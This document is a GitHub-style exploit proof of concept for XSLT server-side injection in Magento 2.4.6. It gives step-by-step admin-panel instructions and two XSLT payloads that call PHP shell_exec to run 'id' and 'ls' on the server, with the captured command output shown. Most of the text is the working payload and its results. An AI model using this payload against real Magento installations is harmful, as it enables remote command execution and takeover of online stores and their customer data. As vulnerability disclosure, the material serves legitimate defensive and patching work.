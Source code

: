 # Magento-ver.-2.4.6
Magento ver. 2.4.6 - XSLT Server Side Injection
# Exploit Title: Magento ver. 2.4.6 - XSLT Server Side Injection

- **Date:** 2023-11-17
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
- **Software Link:** [Magento 2.4.6-p3](https://github.com/magento/magento2/archive/refs/tags/2.4.6-p3.zip)
- **Version:** 2.4.6
- **Tested on:** 2.4.6

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/magento.png" alt="Magento Image" width="300">

## POC

1. Enter with admin credentials to this URL: [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
2. Click `SYSTEM > Import Jobs > Entity Type Widget > click edit`
3. Choose  Import Source is File
4. Click `XSLT Configuration` and write this payload:

   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','id')" />
     </xsl:template>
   </xsl:stylesheet>```
   
**<?xml version="1.0"?>
**uid=10095(a0563af8) gid=1050(a0563af8) groups=1050(a0563af8)

```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','ls')" />
     </xsl:template>
   </xsl:stylesheet>```

**<?xml version="1.0"?>
cron.php
errors
get.php
health_check.php
index.php
media
opt
robots.txt
static
static.php

